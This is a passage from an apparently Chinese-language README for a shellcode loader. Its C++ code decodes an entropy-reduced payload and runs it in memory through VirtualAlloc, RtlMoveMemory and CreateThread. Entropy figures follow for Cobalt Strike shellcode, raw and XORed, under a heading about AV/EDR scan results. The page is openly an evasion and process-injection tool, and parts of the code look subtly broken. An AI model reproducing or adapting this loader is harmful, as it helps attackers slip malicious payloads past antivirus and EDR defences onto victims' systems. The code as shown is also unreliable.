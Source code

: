 ```
            shellcodeOffset++;
        }

        for (size_t k = 0; k < chunk_size; k++)
        {
            encodedShellcodeOffset++;
        }
    }

    if (remaining_bytes)
    {
        for (size_t i = 0; i < sizeof remaining_bytes; i++)
        {
            restored_payload[shellcodeOffset++] = high_ent_payload[encodedShellcodeOffset++];
        }
    }
    return restored_payload;
}

int main() {
    //decode the low-entropy shellcode
    const auto shellcode = shannonDecode(payload);

    // here starts the Process Injection
    // Alloc memory
    LPVOID addressPointer = VirtualAlloc(NULL, cs_shellcode_length, 0x3000, 0x40);
    // Copy shellcode
    RtlMoveMemory(addressPointer, shellcode, cs_shellcode_length);
    // Create thread pointing to shellcode address
    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)addressPointer, NULL, 0, 0);
    // Sleep for a second to wait for the thread
    Sleep(1000);
    return 0;
}
```

# 熵结果

**注:**以下结果仅用 CS Shellcode 测试。

~ Raw 默认钴击外壳代码
(高熵)正常: **7.062950**
(低熵)编码: **4.527140**

~ XORed 钴击外壳代码
(高熵)正常: **4.583139**
(低熵)编码: **3.278284**

# AV/EDR 扫描结果
